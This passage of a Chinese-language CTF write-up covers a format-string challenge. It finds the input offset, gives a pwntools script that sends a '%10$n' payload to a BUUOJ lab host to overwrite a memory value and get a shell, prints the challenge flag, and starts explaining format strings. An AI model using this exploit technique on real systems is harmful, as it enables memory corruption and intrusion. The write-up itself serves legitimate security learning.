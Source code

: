 （注：这部分觉得迷惑的移步至下面《补充》）

我们从他返回的aaaa后的0xffd611f8（为第1）起数，到0x61616161（为第10）止——这就是我们输入的值存放的位置（第10位）（aaaa嘛，四个一样的，对应下去四个一样的也就只有0x61616161）

【注：“(nil)” 是一个表示空值的占位符，因此也算一个】

测试完毕，Ctrl+c断开连接，我们开始构造exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744197061818-ac28001b-89c8-4bea-bc42-83af0ed73ff1.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",26756)

#定义 payload
payload = p32(0x804C044) + b'%10$n'

#接收
r.recvuntil('your name:')

#发送payload
r.sendline(payload)

#接收
r.recvuntil('your passwd:')

#发送payload
r.sendline(str(4))

#获取靶机交互式终端：
r.interactive()
```

常规，得出flag——flag{3c562253-d23b-4f60-94c4-f228f4813f40}

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744196984132-1a3a4149-b83d-44c5-9735-5cd1f43a77d5.png)

# 解释

## 为什么说它是格式化字符串

#### 普通字符串示例分析

```
#include <stdio.h>

int main() {
    // 直接输出字符串常量
    printf("Hello, World!\n");

    return 0;
}
```
